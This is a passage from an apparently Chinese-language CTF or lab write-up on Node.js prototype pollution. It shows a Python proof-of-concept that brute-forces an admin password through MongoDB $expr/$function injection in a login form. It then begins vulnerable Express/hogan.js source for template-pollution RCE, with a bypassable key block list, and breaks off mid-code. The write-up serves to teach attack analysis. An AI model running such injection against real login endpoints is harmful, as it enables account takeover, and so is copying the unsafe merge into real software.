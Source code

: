
validate 会检查用户和密码是否存在，将密码设置为{}.proto 即可继续注入，最后，虽然设置了过滤$where，但通过搜索可以看到，其实可以使用$expr 的形式 官方 poc 大致如下

```bash
for bf in range(32):
    for i in '0123456789abcdef':
        r = post(f'{URL}/user/login', data={
            'username': 'admin", "__proto__": {"a":"haha',
            'password': 'testpw"}, "$expr": \
                {\
                    "$function":\
                    {\
                        "body": "function(pw) { return pw['+ str(bf) +'] == \''+ i +'\' }",\
                        "args": ["$password"],\
                        "lang": "js"\
                    }\
                }, "username": "admin'.replace(' ', '').replace('returnpw', 'return pw')
        }).json()

        if r['statusCode'] == 403:
            adminPW += i
            print(adminPW)
            break
```

### 污染模版内容 rce

常见的 ejs rce 太多了，大家可以自己搜索

我这里提一个比较有意思的 hogan 模板

```bash
const express = require("express");
const { open } = require("sqlite");
const sqlite = require("sqlite3");
const hogan = require("hogan.js");

const app = express();
app.use((req, res, next) => {
  res.setHeader("connection", "close");
  next();
});
app.use(express.urlencoded({ extended: true }));

const loadDb = () => {
  return open({
    driver: sqlite.Database,
    filename: "./data.sqlite",
  });
};

const defaults = {
  city: "*",
};

const UNSAFE_KEYS = ["__proto__", "constructor", "prototype"];

const merge = (obj1, obj2) => {
  for (let key of Object.keys(obj2)) {
    if (UNSAFE_KEYS.includes(key)) continue;
    const val = obj2[key];
    key = key.trim();
    if (typeof obj1[key] !== "undefined" && typeof val === "object") {
      obj1[key] = merge(obj1[key], val);
    } else {
      obj1[key] = val;
```
